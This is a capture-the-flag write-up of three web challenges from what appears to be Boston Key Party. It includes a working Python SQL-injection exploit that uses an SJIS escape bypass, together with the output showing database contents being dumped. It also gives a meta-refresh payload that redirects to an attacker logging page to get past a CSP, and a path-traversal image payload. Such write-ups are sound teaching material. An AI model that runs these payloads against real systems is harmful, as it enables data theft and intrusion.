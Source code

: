 Participated as dcua.


## Good Morning (3pt)

The server pretty seem to be decent, but I've wasted a lot of time testing in a local server. 

The intended way was to bypass the escape_string() feature, by eating up the escaped character to make one backslash with one quote. (```\\"``` => ```?\"```)

bypassing ```escape_string()``` does not work on an UTF-8 encoding, however server used a SJIS encoding, which has a potential of escape string problems.


```
#!/usr/bin/python
#-*- coding: utf-8 -*-

from websocket import create_connection
import json
import sys0
reload(sys)
sys.setdefaultencoding("ISO-8859-1")

INJ = " AND 1=0 UNION SELECT COLUMN_NAME,2,3 FROM INFORMATION_SCHEMA.COLUMNS -- "

# SELECT * FROM answers WHERE question="%s" AND answer="%s"

payload = '¥\u005c'

#ws = create_connection("ws://localhost:5000/ws")
ws = create_connection("ws://52.86.232.163:32800/ws")
result =  ws.recv()

packet = '''{"type":"get_answer","question":"'''+payload+'''","answer":"'''+INJ+'''"}'''
print(">>> '%s'" % packet)
ws.send(packet)

result =  ws.recv()
print "<<< '%s'" % result
ws.close()
```

```
>>> '{"type":"get_answer","question":"¥\u005c","answer":" AND 1=0 UNION SELECT TABLE_NAME, COLUMN_NAME, 3 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA=0x67616e6261747465 LIMIT 1,1 -- "}'
<<< '{"type": "got_answer", "row": ["answers", "id", "3"]}'
<<< '{"type": "got_answer", "row": ["answers", "question", "3"]}'
<<< '{"type": "got_answer", "row": ["answers", "answer", "3"]}'
<<< '{"type": "got_answer", "row": null}'

...

>>> '{"type":"get_answer","question":"¥\u005c","answer":" AND 1=0 UNION SELECT id, question, answer FROM answers WHERE id=1 -- "}'
<<< '{"type": "got_answer", "row": [1, "flag", "BKPCTF{TryYourBestOnTheOthersToo}"]}'

BKPCTF{TryYourBestOnTheOthersToo}
```


## Bug Bounty (3pt)

Sounded more like a XSS challenge at the beginning, but CSP header was blocking to inject inline scripts and send the data back to our serverㄴ.

```
Content-Security-Policy: default-src 'none'; connect-src 'self';  frame-src 'self'; script-src 52.87.183.104:5000/dist/js/ 'sha256-KcMxZjpVxhUhzZiwuZ82bc0vAhYbUJsxyCXODP5ulto=' 'sha256-u++5+hMvnsKeoBWohJxxO3U9yHQHZU+2damUA6wnikQ=' 'sha256-zArnh0kTjtEOVDnamfOrI8qSpoiZbXttc6LzqNno8MM=' 'sha256-3PB3EBmojhuJg8mStgxkyy3OEJYJ73ruOF7nRScYnxk=' 'sha256-bk9UfcsBy+DUFULLU6uX/sJa0q7O7B8Aal2VVl43aDs='; font-src 52.87.183.104:5000/dist/fonts/ fonts.gstatic.com; style-src 52.87.183.104:5000/dist/css/ fonts.googleapis.com; img-src 'self';
```

```
$ cat inline.txt | openssl dgst -sha256 -binary | openssl base64 # There are 5 hashes in the CSP header
KcMxZjpVxhUhzZiwuZ82bc0vAhYbUJsxyCXODP5ulto=           // ?????
u++5+hMvnsKeoBWohJxxO3U9yHQHZU+2damUA6wnikQ=     // "register user" script
zArnh0kTjtEOVDnamfOrI8qSpoiZbXttc6LzqNno8MM=            // "submit bug" script
3PB3EBmojhuJg8mStgxkyy3OEJYJ73ruOF7nRScYnxk=       // "show_report" script
bk9UfcsBy+DUFULLU6uX/sJa0q7O7B8Aal2VVl43aDs=       // captcha page script that loads captchas etc
```

As we searched for files in ```/dist/js```,

```
http://52.87.183.104:5000/dist/js/angular.min.js
http://52.87.183.104:5000/dist/js/app.js
http://52.87.183.104:5000/dist/js/angular-route.min.js
```

We were able to utilize AngularJS to initiate XSS payloads, but it was still not enough due to the CSP header.

so now what? Just use ```meta``` tag to get the request header, and you see the damn flag.

```
<meta http-equiv="refresh" content="0; url=http://yourdomain.com/logger.php" />
```

```BKPCTF{choo choo__here comes the flag}```

lol.


## optiproxy (2pt)

Was pretty easy,

```
#http://optiproxy.bostonkey.party:5300/source

...

begin
            if (uri_scheme == "http" or uri_scheme == "https")
                    url = image
            else
                    url = "http://#{url}/#{image}"
            end
            img_data = open(url).read
            b64d = "data:image/png;base64," + Base64.strict_encode64(img_data)
            img['src'] = b64d
    rescue
            # gotta catch 'em all
            puts "lole"
            next
    end
...

```

```
<html>
<body>
<img src="http:/../../../../../../flag">
</body>
</html>
```

```BKPCTF{maybe dont inline everything.}```
